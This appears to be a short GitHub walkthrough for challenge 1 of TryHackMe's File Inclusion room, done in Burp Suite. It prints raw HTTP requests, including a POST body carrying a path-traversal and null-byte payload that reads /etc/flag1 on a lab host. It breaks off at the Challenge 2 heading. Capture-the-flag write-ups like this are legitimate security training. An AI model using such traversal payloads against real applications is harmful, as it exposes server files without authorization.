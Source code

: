 # My goal is to provide methods to complete the File Inclusion room on TryHackMe using only Burpsuite and not curL as other walkthroughs do. This does assume a basic understanding of Burpsutie
# Challenge 1
For challenge one we can test out entering /etc/flag1 into the form and then view the web request in burp suite after intercepting it, the web request looks like
```
GET /challenges/chall1.php?file=%2Fetc%2Fflag HTTP/1.1
Host: [IP]
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/94.0.4606.61 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://10.10.152.198/challenges/chall1.php
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
```
So the thign we need to do is change the http method being used to post as the challenge tells us such that <br>
```POST /challenges/chall1.php HTTP/1.1```
Curl would use the -d to add information to the request body and to do this in burpsuite we need to add headers to the original request. Specifically the Content Type and when the data is addedd the  Content-Length field should be automatically filled by Burpsuite
<br> 
<br>
Lastly we must add the null byte in order to get to the php file on the server
```
POST /challenges/chall1.php HTTP/1.1
Host: 10.10.152.198
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/94.0.4606.61 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://10.10.152.198/challenges/chall1.php
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Content-Type: application/x-www-form-urlencoded
Content-Length: 45

file=../../../../../../etc/flag1%00
```
# Challenge 2
